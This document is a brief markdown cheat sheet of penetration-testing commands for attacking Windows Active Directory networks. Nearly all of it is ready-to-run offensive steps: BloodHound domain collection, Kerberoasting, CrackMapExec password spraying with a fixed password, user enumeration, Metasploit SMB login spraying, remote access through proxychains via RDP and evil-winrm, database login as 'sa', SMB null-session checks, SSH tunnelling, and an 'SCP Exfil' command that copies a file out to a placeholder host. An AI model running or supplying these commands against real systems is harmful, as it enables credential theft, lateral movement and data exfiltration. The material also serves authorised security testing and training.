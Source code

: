 Bloodhound From Kali
---------------------------------------------------------------
`bloodhound-python -u adusername -d domain.corp -v -c dconly -ns x.x.x.x`  
`bloodhound-python -u adusername -d domain.corp -v -c all -ns x.x.x.x`

Kerberoast SPNS
---------------------------------------------------------------
`python3 GetUserSPNS.py -request domain.corp/adusername -dc-ip x.x.x.x`

CrackMapExec
---------------------------------------------------------------
Check for smb access  
`cme smb -u username -p Welcome1 --shares final.txt --continue-on-success`

Password spray against user list  
`cme smb -u usernamesonly.txt -p Welcome1 -d domain.corp  x.x.x.x(target) --continue-on-success`

Grab user list  
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all domain.corp/aduser -dc-ip x.x.x.x`

Metasploit Password Spray SMB
---------------------------------------------------------------
`use auxiliary/scanner/smb/smb_login` 

RDP (simple) 
---------------------------------------------------------------
`proxychains-ng xfreerdp /v:x.x.x.x /u:username /d:domain.corp /p:Welcome1`

RDP (Clipboard, mounted tsclient) 
---------------------------------------------------------------
`proxychains-ng xfreerdp +clipboard /v:x.x.x.x /u:username /d:domain.local /drive:tsclient,/path/to/mounted/folder/` 

Evil-winrm
---------------------------------------------------------------
`proxychains-ng evil-winrm -i x.x.x.x -u username -p 'Welcome1'`

SCP Exfil
---------------------------------------------------------------
`scp SuperSecretDummyExfil.xlsx username@x.x.x.x:/home/pentesting`

Database CommandLine Access SQSH
---------------------------------------------------------------
`proxychains-ng sqsh -S x.x.x.x -U sa -P Welcome1`

Access SMB Share
---------------------------------------------------------------
Check for null session  
`echo exit | smbclient -L \\\\$line`

Connect and explore through smbclient  
`smbclient //x.x.x.x/share`  

Mount open share locally  
`sudo mount //x.x.x.x/share /mnt/share`

Proxychains ssh
---------------------------------------------------------------
`ssh -L 7777:localhost:7777 username@hostname.com`  
`ssh -ND 7777 username@localhost`

